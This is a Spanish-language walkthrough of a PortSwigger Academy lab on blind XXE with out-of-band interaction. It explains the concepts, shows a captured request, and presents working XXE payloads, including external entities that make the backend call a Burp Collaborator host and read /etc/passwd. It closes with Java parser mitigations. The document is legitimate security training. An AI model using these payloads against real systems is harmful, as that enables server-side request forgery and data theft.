

# PortSwigger Web Security Academy — Lab 3 de XXE

## Blind XXE with out-of-band interaction

**URL del laboratorio:**  
https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

**Categoría:** XXE  
**Tipo:** Blind XXE / Out-of-Band interaction  
**Objetivo:** usar una entidad externa XML para provocar una consulta DNS y una petición HTTP hacia Burp Collaborator.

---

## Índice

1. Descripción del laboratorio
2. Idea principal del lab
3. Qué es XXE
4. Qué es Blind XXE
5. Qué significa Out-of-Band
6. Qué es Burp Collaborator / OAST
7. Diferencia entre XXE visible y Blind XXE
8. Dónde está la vulnerabilidad
9. Petición original de `Check stock`
10. Payload XXE OOB usado
11. Qué ocurre internamente paso a paso
12. Por qué aparecen interacciones DNS
13. Por qué aparece una petición HTTP
14. Qué significa `User-Agent: Java/21.0.1`
15. Por qué la respuesta web no muestra el resultado
16. Prueba práctica completa
17. Confirmación en Collaborator
18. Por qué el laboratorio queda resuelto
19. Impacto real de este tipo de vulnerabilidad
20. Cómo se mitiga correctamente
21. Resumen final

---

## 1. Descripción del laboratorio

El laboratorio se llama:

**Blind XXE with out-of-band interaction**

El enunciado indica que la aplicación tiene una funcionalidad de **Check stock** que analiza datos XML, pero no muestra el resultado de las entidades externas en la respuesta HTTP.

El objetivo no es leer `/etc/passwd` directamente en la respuesta, como en un XXE clásico visible. El objetivo es confirmar que el parser XML procesa entidades externas haciendo que el servidor realice una interacción externa hacia un dominio controlado por Burp Collaborator.

El laboratorio se resuelve cuando el servidor realiza una consulta DNS y una petición HTTP hacia el dominio OAST generado por Burp Collaborator.

---

## 2. Idea principal del lab

La idea central es esta:

> La vulnerabilidad existe, pero la aplicación no te devuelve directamente el resultado.

Eso significa que no basta con inyectar:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

y esperar ver el contenido del archivo en la respuesta.

En este lab, aunque el parser procese la entidad externa, la aplicación responde algo genérico como:

```http
HTTP/2 400 Bad Request

"Invalid product ID"
```

A primera vista, parece que no ha pasado nada útil. Pero sí ha pasado algo: el servidor ha intentado resolver y visitar la entidad externa.

Como no vemos el resultado en la respuesta, usamos un canal alternativo: **Burp Collaborator**.

---

## 3. Qué es XXE

XXE significa:

**XML External Entity Injection**

Es una vulnerabilidad que aparece cuando una aplicación procesa XML con un parser que permite definir y resolver entidades externas.

Un XML normal puede ser así:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Pero XML también permite definir un `DOCTYPE` con entidades:

```xml
<!DOCTYPE foo [
  <!ENTITY test "hola">
]>
```

Luego puedes usar esa entidad dentro del documento:

```xml
<productId>&test;</productId>
```

El parser reemplaza `&test;` por `hola`.

El problema aparece cuando la entidad no contiene texto fijo, sino un recurso externo:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

o una URL externa:

```xml
<!ENTITY xxe SYSTEM "http://example.com">
```

Si el parser permite resolver esa entidad, el servidor puede leer archivos locales o realizar peticiones HTTP desde el backend.

---

## 4. Qué es Blind XXE

**Blind XXE** significa que el parser XML procesa la entidad externa, pero la aplicación no muestra el resultado en la respuesta HTTP.

En un XXE normal visible, podrías ver algo como:

```http
Invalid product ID: root:x:0:0:root:/root:/bin/bash
```

En Blind XXE, en cambio, solo ves algo como:

```http
Invalid product ID
```

o incluso una respuesta completamente normal.

La vulnerabilidad puede existir, pero no tienes una salida directa para ver el contenido.

Por eso se llama **blind**, es decir, “ciega”. No ves directamente el resultado del ataque.

---

## 5. Qué significa Out-of-Band

**Out-of-Band**, o **OOB**, significa que la evidencia de la vulnerabilidad llega por un canal diferente al canal principal.

Canal normal:

```text
Tu petición HTTP → respuesta HTTP de la aplicación
```

Canal fuera de banda:

```text
Tu petición HTTP → servidor vulnerable → DNS/HTTP hacia Collaborator
```

La aplicación no te devuelve el contenido de la entidad, pero el servidor realiza una acción observable desde fuera: contacta con un dominio que controlas.

Eso demuestra que tu entidad externa fue procesada.

---

## 6. Qué es Burp Collaborator / OAST

Burp Collaborator es un servidor controlado por Burp Suite que permite detectar interacciones fuera de banda.

Te genera un dominio único, por ejemplo:

```text
o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
```

Ese dominio está asociado a tu instancia de Burp Collaborator.

Si un servidor vulnerable intenta resolverlo o conectarse a él, Burp lo registra.

Burp Collaborator puede detectar interacciones como:

- DNS
- HTTP
- HTTPS
- SMTP

En este lab nos interesan principalmente:

- consulta DNS
- petición HTTP

El laboratorio exige usar el servidor público predeterminado de Burp Collaborator porque PortSwigger bloquea conexiones hacia dominios externos arbitrarios para evitar abusos.

---

## 7. Diferencia entre XXE visible y Blind XXE

### XXE visible

Usas una entidad externa para leer un archivo:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Y la aplicación refleja el contenido en la respuesta:

```http
Invalid product ID: root:x:0:0:root:/root:/bin/bash
```

Aquí ves directamente el contenido robado.

### Blind XXE

Usas una entidad externa hacia Collaborator:

```xml
<!ENTITY xxe SYSTEM "http://TU-DOMINIO.oastify.com">
```

La aplicación responde:

```http
"Invalid product ID"
```

Pero en Collaborator aparecen interacciones DNS/HTTP.

Aquí no ves el contenido, pero confirmas que el parser hizo una petición externa.

---

## 8. Dónde está la vulnerabilidad

La vulnerabilidad está en la funcionalidad **Check stock**.

Cuando entras a un producto y pulsas **Check stock**, el navegador envía una petición POST al endpoint:

```http
POST /product/stock
```

El cuerpo de la petición es XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Esto nos dice dos cosas importantes:

1. La aplicación recibe XML controlado parcialmente por el usuario.
2. El backend parsea ese XML.

Si el parser XML permite `DOCTYPE` y entidades externas, podemos intentar XXE.

---

## 9. Petición original de `Check stock`

La petición capturada en Burp fue:

```http
POST /product/stock HTTP/2
Host: 0a2800c5040ae4148150082100f30026.web-security-academy.net
Cookie: session=ymEPuykcqVsbCrJdWIW9z9Fxy7KpC5Ku
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2800c5040ae4148150082100f30026.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a2800c5040ae4148150082100f30026.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

La cabecera más importante aquí es:

```http
Content-Type: application/xml
```

Esto confirma que el backend espera XML.

El cuerpo original tiene:

```xml
<productId>1</productId>
<storeId>1</storeId>
```

`productId` y `storeId` son los valores que la aplicación usa para consultar stock.

El punto vulnerable es que podemos insertar un `DOCTYPE` antes del elemento raíz `stockCheck`.

---

## 10. Payload XXE OOB usado

El XML modificado fue:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

La parte clave es esta:

```xml
<!ENTITY xxe SYSTEM "http://o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com">
```

Esto define una entidad llamada `xxe`.

`SYSTEM` indica que el contenido de esa entidad debe obtenerse desde un recurso externo.

En este caso, el recurso externo es el dominio de Burp Collaborator:

```text
o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
```

Luego usamos la entidad aquí:

```xml
<productId>&xxe;</productId>
```

Cuando el parser procese el XML, intentará resolver `&xxe;` accediendo a esa URL.

---

## 11. Qué ocurre internamente paso a paso

El flujo interno es este:

1. Enviamos el XML malicioso a `/product/stock`.
2. El backend recibe el XML.
3. El parser XML lee el `DOCTYPE`.
4. El parser ve la entidad externa `xxe`.
5. El parser encuentra `&xxe;` dentro de `<productId>`.
6. Para resolverla, intenta acceder a:

```text
http://o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
```

7. Antes de hacer HTTP, el servidor necesita resolver DNS.
8. Burp Collaborator registra la consulta DNS.
9. Después, el servidor realiza una petición HTTP.
10. Burp Collaborator registra la petición HTTP.
11. La aplicación no muestra el resultado en la respuesta principal.
12. La aplicación responde simplemente:

```http
"Invalid product ID"
```

Lo importante es que el callback llegó a Collaborator.

---

## 12. Por qué aparecen interacciones DNS

Antes de que un servidor pueda hacer una petición HTTP a un dominio, tiene que traducir ese dominio a una IP.

Por ejemplo, para acceder a:

```text
http://o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
```

el servidor primero pregunta:

```text
¿Qué IP tiene o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com?
```

Esa pregunta es una consulta DNS.

Por eso Collaborator muestra interacciones DNS.

En tu caso aparecieron dos DNS. Esto puede pasar por varios motivos:

- resolución IPv4 e IPv6
- reintentos
- comportamiento del resolver DNS
- caché intermedia
- comportamiento del runtime Java
- resoluciones duplicadas por librerías internas

Ver DNS ya es una señal muy fuerte: demuestra que el servidor intentó resolver tu dominio.

---

## 13. Por qué aparece una petición HTTP

Después del DNS, el servidor ya sabe a qué IP conectar.

Entonces hace una petición HTTP al dominio.

En Collaborator viste:

```http
GET / HTTP/1.1
User-Agent: Java/21.0.1
Host: o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
Accept: */*
Connection: keep-alive
```

Esto significa que el servidor vulnerable no solo resolvió DNS, sino que además hizo una conexión HTTP real.

La petición fue:

```http
GET /
```

al host:

```text
o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
```

Eso confirma la explotación Blind XXE con interacción fuera de banda.

---

## 14. Qué significa `User-Agent: Java/21.0.1`

La petición HTTP recibida en Collaborator contenía:

```http
User-Agent: Java/21.0.1
```

Esto es muy interesante porque revela tecnología interna.

Significa que la petición fue realizada por un componente Java.

Probablemente la aplicación usa un parser XML de Java, por ejemplo:

- `DocumentBuilderFactory`
- `SAXParserFactory`
- `javax.xml.parsers`
- Xerces
- alguna librería XML basada en Java

Esto no es necesario para resolver el lab, pero en pentesting real es información muy útil.

Te dice que el backend probablemente corre sobre Java o usa una librería Java para procesar XML.

---

## 15. Por qué la respuesta web no muestra el resultado

La respuesta del endpoint vulnerable fue:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid product ID"
```

Esto es lo que hace que sea **Blind XXE**.

La aplicación no imprime el resultado de la entidad externa.

En un XXE visible, si pusieras la entidad en `productId`, la aplicación podría responder:

```text
Invalid product ID: contenido_de_la_entidad
```

Pero aquí no lo hace.

Solo devuelve un mensaje genérico.

Sin Collaborator, podrías pensar que el payload no funcionó. Pero las interacciones DNS y HTTP demuestran que sí funcionó.

---

## 16. Prueba práctica completa

### Paso 1: Abrir el laboratorio

Se abre el laboratorio en la URL asignada por PortSwigger:

```text
https://0a2800c5040ae4148150082100f30026.web-security-academy.net/
```

La página inicial es una tienda con productos.


---

### Paso 2: Entrar en un producto

Entramos en cualquier producto y usamos la funcionalidad **Check stock**.

Esa acción genera una petición XML hacia:

```http
POST /product/stock
```

---

### Paso 3: Capturar la petición con Burp Suite

Con FoxyProxy activado y Burp interceptando, capturamos la petición original:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

La mandamos a Repeater para modificarla cómodamente.

---

### Paso 4: Generar dominio de Burp Collaborator

En Burp Collaborator copiamos un dominio único.

En este caso:

```text
o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
```

Ese dominio es el que usaremos en la entidad externa.

---

### Paso 5: Insertar el payload XXE

Reemplazamos el XML original por:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

---

### Paso 6: Enviar la petición

La aplicación responde:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid product ID"
```

Esto no muestra el resultado de la entidad.

Pero eso no significa que el ataque haya fallado.

---

### Paso 7: Hacer `Poll now` en Collaborator

En Burp Collaborator pulsamos **Poll now**.

Aparecen:

- dos interacciones DNS
- una interacción HTTP

La petición HTTP registrada fue:

```http
GET / HTTP/1.1
User-Agent: Java/21.0.1
Host: o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
Accept: */*
Connection: keep-alive
```

Esto confirma que el parser XML resolvió la entidad externa.

---

### Paso 8: Confirmación del laboratorio

Al volver al laboratorio, aparece como resuelto:



---

## 17. Confirmación en Collaborator

La evidencia fuerte es esta:

```http
GET / HTTP/1.1
User-Agent: Java/21.0.1
Host: o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
Accept: */*
Connection: keep-alive
```

Esto confirma varias cosas:

1. El XML fue parseado.
2. El `DOCTYPE` fue aceptado.
3. La entidad externa fue resuelta.
4. El servidor hizo DNS lookup.
5. El servidor hizo una petición HTTP.
6. La petición salió desde el backend, no desde tu navegador.
7. El componente que hizo la petición parece Java.

Esto es exactamente lo que pide el laboratorio.

---

## 18. Por qué el laboratorio queda resuelto

El objetivo del lab no era leer un archivo.

El objetivo era provocar una interacción fuera de banda.

El laboratorio se resuelve cuando el servidor vulnerable hace una petición hacia Burp Collaborator.

Tu payload logró que el parser XML intentara resolver:

```text
http://o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com
```

Eso generó DNS y HTTP en Collaborator.

Por eso el laboratorio queda resuelto.

---

## 19. Impacto real de este tipo de vulnerabilidad

Blind XXE puede ser muy serio aunque no muestre datos directamente.

Puede permitir:

- detectar parsing inseguro de XML
- confirmar salida DNS/HTTP desde el backend
- realizar SSRF
- enumerar servicios internos
- acceder a endpoints cloud internos
- exfiltrar datos usando técnicas OOB avanzadas
- cargar DTDs externas
- filtrar archivos línea por línea o base64 en otros escenarios

En entornos reales, un Blind XXE puede ser el primer paso para:

- robar credenciales cloud
- acceder a metadata services
- pivotar a redes internas
- detectar servicios internos no expuestos a Internet
- exfiltrar información sensible mediante callbacks

Aunque la aplicación solo responda `Invalid product ID`, el hecho de que el servidor conecte con un dominio externo ya es una prueba de impacto.

---

## 20. Cómo se mitiga correctamente

La mitigación correcta no consiste en filtrar palabras como `DOCTYPE`, `ENTITY` o `SYSTEM` con regex.

La defensa real es configurar el parser XML de forma segura.

Hay que deshabilitar:

- DTDs
- entidades externas
- resolución de entidades externas generales
- resolución de entidades externas de parámetro
- carga de DTDs externas
- acceso a recursos externos desde el parser

Ejemplo conceptual en Java:

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

Además:

- evitar XML cuando no sea necesario
- usar JSON si el caso de uso lo permite
- aplicar allowlists estrictas
- restringir salidas de red desde servidores internos
- bloquear acceso a metadata services cuando no sea necesario
- usar IMDSv2 en AWS
- monitorizar DNS/HTTP saliente inesperado

---

## 21. Resumen final

Este laboratorio demuestra un **Blind XXE**.

La aplicación recibe XML en la funcionalidad `Check stock`.

El parser XML permite definir entidades externas.

Como la aplicación no refleja el resultado de la entidad en la respuesta, usamos Burp Collaborator.

El payload fue:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://o7w52bniza61a6ivz6rrx0h5iwoncd02.oastify.com">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

La aplicación respondió:

```http
"Invalid product ID"
```

Pero Collaborator registró:

- DNS interaction
- HTTP interaction

La petición HTTP contenía:

```http
User-Agent: Java/21.0.1
```

Eso confirma que el servidor procesó la entidad externa y realizó una petición fuera de banda.

La frase clave del laboratorio es:

> En Blind XXE no ves el contenido en la respuesta, pero puedes demostrar la vulnerabilidad provocando una interacción externa observable.

